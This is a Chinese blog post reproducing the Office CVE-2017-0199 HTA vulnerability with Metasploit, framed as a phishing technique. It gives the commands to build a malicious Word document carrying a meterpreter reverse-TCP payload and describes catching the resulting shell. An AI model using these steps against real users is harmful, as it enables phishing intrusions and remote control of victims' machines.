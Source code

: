 Title:用office的CVE-2017-0199漏洞进行钓鱼（二）
Date: 2017-12-22 10:20
Category: 钓鱼
Tags: office,漏洞,钓鱼
Slug: 
Authors: bit4
Summary: HTA Handler Vulnerability



上一篇已经一步一步手动复现了该漏洞，也弄清楚了一些小的疑问，本篇将使用metasploit进行复现。

### 0x0、metasploit的复现过程

```
msfupdate
msfconsole
search CVE-2017-0199
```

如果更新后找不到模块，可以直接到github上下载

https://github.com/rapid7/metasploit-framework/issues/8220

https://github.com/rapid7/metasploit-framework/pull/8254

![msf_search](img/CVE-2017-0199-msf/msf_search.png)

而后加载该模块，并且设置各项参数，比如payload等。

```
use exploit/windows/fileformat/office_word_hta
set payload windows/meterpreter/reverse_tcp
show options
run
```

![msf_options](img/CVE-2017-0199-msf/msf_run.png)

成功生成了恶意文件并监听4444端口之后，我们就可以保存msf.doc文件到本地并执行了。

```
新开一个shell然后执行
sz  /root/.msf4/local/msf.doc
```

![success](img/CVE-2017-0199-msf/success.png)

可以看到成功反弹了shell。注意，要想成功反弹shell，需要保证监听服务器和webdav服务器在运行msf.doc的主机上都可以正常访问才行。

### 0x1、关于metasploit

1. 一个监听端口可以接收多个反弹会话的。

2. sessions的操作，当前session到后台运行 `background` , 进入某个session：session session_ID

   ![session_operation](img/CVE-2017-0199-msf/session_operation.png)

3. jobs的操作，将某个job调用到前台：use exploit/xxx/xxx；将当前job调到后台：back ；杀死某个job：kill job_id

   ![job_operation](img/CVE-2017-0199-msf/job_operation.png)

   ![kill_job](img/CVE-2017-0199-msf/kill_job.png)

4. 有一个小坑：阿里云的VPS（ECS）上，所有网卡上的IP地址都是内网地址，没有外网地址（应该是有映射机制，当访问外网地址http://外网IP:8080/default.hta 会被映射到内网地址http://内网IP:8080/default.hta，验证过的），而msf绑定SRVHOSR:SRVPORT的时候似乎是根据网络来的，所以就无法绑定外网地址，上面的例子里，就无法将HTA的URL向外网开放。有前面说的映射机制，应该也能访问到才对啊，但问题是生成的msf.doc文件中，写死了要请求的URL（即内网的URL，尝试了手动更新，也未成功）。只好换个vps进行实验了。